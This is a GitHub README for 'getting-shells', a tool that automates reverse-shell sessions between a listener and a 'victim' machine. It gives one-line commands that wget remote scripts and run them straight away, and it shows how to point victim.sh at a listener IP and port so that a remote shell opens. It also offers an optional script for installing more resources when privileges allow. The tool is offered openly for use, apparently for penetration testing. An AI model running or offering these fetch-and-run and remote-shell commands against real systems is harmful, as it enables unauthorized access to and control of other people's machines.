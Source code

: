 # getting-shells

Version 1
2021-11-23

## Purpose

Automation tool for listening and starting shells sessions.\
Both, the listener and the victim scripts check for installed resources.\
This tool simplifies the successive trials of starting a shell by selecting options from a menu.

## Quick Execution

Listener:

```
wget -q "https://raw.githubusercontent.com/davift/getting-shells/main/listener.sh" && chmod +x listener.sh && ./listener.sh
```

![listener_screenshot](https://github.com/davift/getting-shells/blob/main/listener.png)

Victim:

```
wget -q "https://raw.githubusercontent.com/davift/getting-shells/main/victim.sh" && chmod +x victim.sh && ./victim.sh
```

![victim_screenshot](https://github.com/davift/getting-shells/blob/main/victim.png)

## Installation

No installation is required. This scripts can run out of the box. Just clone the repo:

```
git clone https://github.com/davift/getting-shells.git && cd getting-shells
```

## Execution

```
./listener.sh 443
```

```
./victim.sh 192.168.2.1 443
```

## Additionals

There is no such thing as dependencies to run this tool. It uses the available resources in the system to establish the sessions.\
Additionally, in case you need more resources and have the necessary privileges on the system, the following script will automate the installation of more resources:

```
./additionals.sh
```

## More Information

Read more at https://blog.dftorres.ca/?p=2224.
